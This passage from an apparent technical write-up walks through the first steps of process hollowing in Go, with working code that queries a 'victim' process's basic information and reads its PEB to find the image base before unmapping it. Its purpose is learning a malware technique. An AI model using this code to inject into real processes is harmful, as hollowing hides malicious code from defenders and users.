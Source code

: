 ### Unmap the image out of target process memory

Reading "Practical Malware Analysis" this seems like a breeze. Just call `ntUnmapViewOfSection`. Of course, in practice, this is a bit more complicated, which is also why I decided to implement these techniques.
We will, indeed, use the undocumented function `ntUnmapViewOfSection` to hollow out the target process of its loaded image, however, the function needs to be told where the image is loaded in the target process to work. This complicated things a bit, but it can be done.
The location where the image is loaded is recorded in the `PEB`, under `ImageBaseAddress`. That's nice, however, how do we retrieve the `PEB`?
We can do that by calling `NtQueryInformationProcess`, which is going to return a struct called `PROCESS_BASIC_INFORMATION` which contains the address of the `PEB` under `PebBaseAddress`.

So after reading some docs and implementing some structs we now retrieve `PROCESS_BASIC_INFORMATION`. The series of casting is used to populate my Go struct out of the memory pointed to by the pointer that `ntQueryInformationProcess` returns. I will use a lot of similar casting as I go along to populate structs I implemented myself.

```go
// Try to find victim process' PROCESS_BASIC_INFORMATION
var procBasicInfo PROCESS_BASIC_INFORMATION
var returnedLength uint32
r1, _, _ := ntQueryInformationProcess.Call(
    uintptr(processInfo.Process),
    uintptr((uint32)(0)), // ProcessBasicInformation
    uintptr(unsafe.Pointer((*byte)(unsafe.Pointer(&procBasicInfo)))), // Inspired by https://github.com/winlabs/gowin32/blob/master/process.go
    uintptr((uint32)(unsafe.Sizeof(procBasicInfo))),
    uintptr(unsafe.Pointer(&returnedLength)),
)
if r1 != 0 {
    log.Fatal("[-] Failed to retrieve victim's PROCESS_BASIC_INFORMATION")
}
fmt.Printf("[+] Retrieved PROCESS_BASIC_INFORMATION, returned %d bytes\n", returnedLength)
```

Once we have the location of `PEB`, which is located in the process memory, we can just read it out with `ReadProcessMemory`.

```go
// Trying to retrieve PEB
var peb PEB
var bytesRead uint32
r1, _, _ = readProcessMemory.Call(
    uintptr(processInfo.Process),
    procBasicInfo.PebBaseAddress,
    uintptr(unsafe.Pointer((*byte)(unsafe.Pointer(&peb)))),
    uintptr((uint32)(unsafe.Sizeof(peb))),
    uintptr(unsafe.Pointer(&bytesRead)),
)
if r1 == 0 {
    log.Fatal("[-] Failed to retrieve victim's PEB")
}
fmt.Printf("[+] Retrieved PEB and BaseImageAddress, read %d bytes\n", bytesRead)
fmt.Printf("[+] Retrieved ImageBaseAddress at %p\n", unsafe.Pointer(peb.ImageBaseAddress))
```
